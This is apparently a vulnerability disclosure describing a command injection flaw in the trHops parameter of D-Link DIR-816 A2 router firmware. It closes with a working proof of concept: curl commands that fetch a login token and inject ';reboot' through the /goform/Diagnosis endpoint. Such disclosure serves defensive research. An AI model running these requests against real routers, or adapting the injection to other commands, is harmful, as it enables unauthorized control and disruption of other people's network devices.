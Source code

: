 # Dlink DIR-816 Command injection vulnerability
## Overview
- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-816

## Vulnerability information
There is an Command injection vulnerability in Dlink DIR-816A2_FWv1.10CNB05, which can execute arbitrary command in route system.

## Affected version

![](pic/version.png "")

Figure shows the latest firmware ：A2_FWv1.10CNB05 of the router
## Vulnerability details
The hardware version can be found is A2 1.10 on the web.

![](pic/web.png "")

In goahead, we can find the code details in sub_45AC4C,the program passes the contents obtained by the trHops parameter to V6.

![](pic/code1.png "")

Then, format the matching content of V6 through the snprintf function into V10.

![](pic/code2.png "")

The V10 parameter is called by the function doSystembk().
There is a command injection vulnerability

## Vulnerability exploitation condition
Need to get cookie to execute the attack and set doType not 0.

## Recurring vulnerabilities and POC
In order to reproduce the vulnerability, the following steps can be followed:
1. Connect physical devices
2. Attack with the following shell command

Poc is as follows
```bash
TOKENID=`curl -s http://192.168.0.1/dir_login.asp | grep tokenid | head -1 | grep -o 'value="[0-9]*"' | cut -f 2 -d = | tr -d '"'`
```
```bash
curl -i -X POST http://192.168.0.1/goform/Diagnosis -d tokenid=$TOKENID -d 'pingAddr=192.168.0.1' -d 'doType=1' -d 'trHops=8;reboot'
```
After running poc, the effect is as follows,the router reboots.

![](pic/effect3.png "")


## CVE-ID
unsigned
